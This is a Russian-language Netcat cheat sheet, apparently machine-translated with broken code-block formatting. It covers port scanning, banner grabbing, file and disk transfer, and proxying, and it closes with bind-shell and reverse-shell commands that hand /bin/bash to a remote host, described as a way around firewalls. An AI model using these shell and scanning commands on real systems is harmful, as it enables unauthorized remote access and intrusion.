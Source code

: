 ```yaml
---
название: Netcat
дата: 2020-11-25 18:28:43
фон: bg-blue-600
теги:
    - ncat
    - nc
    - коммунальное хозяйство
    - сеть
    - трафик
категории:
    - Команда Linux
введение:  В этой шпаргалке приведены различные способы использования Netcat в Linux и Unix.
плагины:
    - copyCode
---
```


Начало работы {.cols-5}
---------------

### Использование {.col-span-2}

Подключение к хосту, расположенному в любом месте

Шелл-скрипт
$ nc [options] [host] [port]
```

Прослушивание входящих соединений
```Шелл-скрипт
$ nc -lp port [host] [port]
```



### Примеры опций {.col-span-3 .row-span-2}

| Опция | Описание | Пример |
|--------|----------------------------|------------------------------------------|
| `-h` | nc -h | Help |
| `-z` | nc -z 192.168.1.9 1-100 | Сканирование порта для хоста или IP-адреса |
| `-v` | nc -zv 192.168.1.9 1-100 | Предоставить подробный вывод |
| `-n` | nc -zn 192.168.1.9 1-100 | Быстрое сканирование путем отключения разрешения DNS |
| `-l` | nc -lp 8000 | Режим прослушивания TCP _(для входящих соединений)_ |
| `-w` | nc -w 180 192.168.1.9 8000 | Определить значение тайм-аута |
| `-k` | nc -kl 8000 | Продолжать прослушивание после разъединения |
| `-u` | nc -u 192.168.1.9 8000 | Использовать UDP вместо TCP |
| `-q` | nc -q 1 192.168.1.9 8000 | Клиент продолжает работать после EOF |
| `-4` | nc -4 -l 8000 | Только IPv4 |
| `-6` | nc -6 -l 8000 | Только IPv6 |


### Чат клиент-сервер {.col-span-2}
Сервер (192.168.1.9)
Шелл-скрипт
$ nc -lv 8000
```

Клиент
```Шелл-скрипт
$ nc 192.168.1.9 8000
```



Примеры Netcat
--------

### Захват баннера
Шелл-скрипт
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
или
``хилый скрипт
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Сканирование портов

Сканирование портов с 21 по 25
```Шелл-скрипт
$ nc -zvn 192.168.1.1 21-25
```

Сканирование портов 22, 3306 и 8080
```Шелл-скрипт
$ nc -zvn 192.168.1.1 22 3306 8080
```


### Прокси и проброс портов
``` Шелл-скрипт
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```
или
```шелл-скрипт
$ nc -l 8001 | nc 127.0.0.1 8000
```
Создание туннеля от одного локального порта к другому



### Скачать файл

Сервер (192.168.1.9)
``Сценарий командной строки
$ nc -lv 8000 < file.txt
```

Клиент
сценарий
$ nc -nv 192.168.1.9 8000 > file.txt
```

Предположим, что необходимо передать файл "file.txt" с сервера A на клиент B.


### Загрузка файла

Сервер (192.168.1.9)
``Сценарий командной строки
$ nc -lv 8000 > file.txt
```

Клиент
``Основной сценарий
$ nc 192.168.1.9 8000 < file.txt
```

Предположим, что необходимо передать файл "file.txt" с клиента B на сервер A:


### Передача каталога

Сервер (192.168.1.9)
``Основной сценарий
$ tar -cvf - имя_директории | nc -l 8000
```

Клиент
``Шелл-скрипт
$ nc -n 192.168.1.9 8000 | tar -xvf -.
```

Предположим, что необходимо передать по сети каталог из точки A в точку B.


### Зашифровать передачу {.col-span-2}


Сервер (192.168.1.9)
``Шелевой сценарий
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

Клиент
```Шелл-скрипт
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Шифрование данных перед передачей по сети



### Клоны

Сервер (192.168.1.9)
``Сценарий командной строки
$ dd if=/dev/sda | nc -l 8000
```

Клиент
``Шелл-скрипт
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Клонирование ПК с ОС linux очень просто. Предположим, что ваш системный диск - /dev/sda



### Видеопоток

Сервер (192.168.1.9)
командный сценарий
$ cat video.avi | nc -l 8000
```

Клиент
```Шелл-скрипт {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -.
```

Потоковое видео с помощью netcat




### Удаленная оболочка

Сервер (192.168.1.9)
``Сценарий оболочки
$ nc -lv 8000 -e /bin/bash
```

Клиент
``Шелл-скрипт
$ nc 192.168.1.9 8000
```

Мы использовали удаленную оболочку с помощью telnet и ssh, но что делать, если они не установлены и у нас нет прав на их установку, тогда мы можем создать удаленную оболочку и с помощью netcat.



### Обратная оболочка

Сервер (192.168.1.9)
``Сценарий оболочки
$ nc -lv 8000
```

Клиент
```Шелл-скрипт
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Обратные оболочки часто используются для обхода ограничений брандмауэра, например, блокировки входящих соединений

